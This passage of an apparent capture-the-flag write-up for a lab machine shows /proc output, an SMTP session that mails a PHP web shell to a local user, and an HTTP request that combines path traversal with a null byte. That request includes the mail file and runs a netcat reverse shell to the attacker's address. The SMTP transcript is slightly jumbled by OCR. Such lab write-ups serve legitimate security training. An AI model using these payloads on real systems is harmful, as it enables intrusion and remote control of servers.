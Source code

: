 ```
SigQ:	0/16384
SigPnd:	0000000000000000
ShdPnd:	0000000000000000
SigBlk:	0000000000000000
SigIgn:	0000000001001000
SigCgt:	000000018c00466b
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
Cpus_allowed:	00000001
Mems_allowed:	1
```
As we can see we do get Uid 100 and Pid 101, checking with ```/etc/passwd``` we can see that this Uid is related to the user asterisk.  
now we can send an email to asterisk@localhost connecting to port 25:
```
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
HELO b0d.beep220 beep.localdomain ESMTP Postfix
.htb
250 beep.localdomain
VRFY asterisk@localhost
252 2.0.0 asterisk@localhost
MAIL FROM:<b0d@haha.com>
250 2.1.0 Ok
RCPT TO:<asterisk@localhost>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: you got pwned
<?php system($_REQUEST['cmd']);?>
.
250 2.0.0 Ok: queued as 862C3D92FD
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
```
Now that we have our payload uploaded, we can perform the following request and get a shell:
```
POST /vtigercrm/graph.php HTTP/1.1
Host: 10.10.10.7
Cookie: elastixSession=3oqenhc7bvtjcid4iuqpag7341; PHPSESSID=3bb02vcbjco3ntj9odbumor1o4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 175

current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action=&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.18+4444+>/tmp/f
```
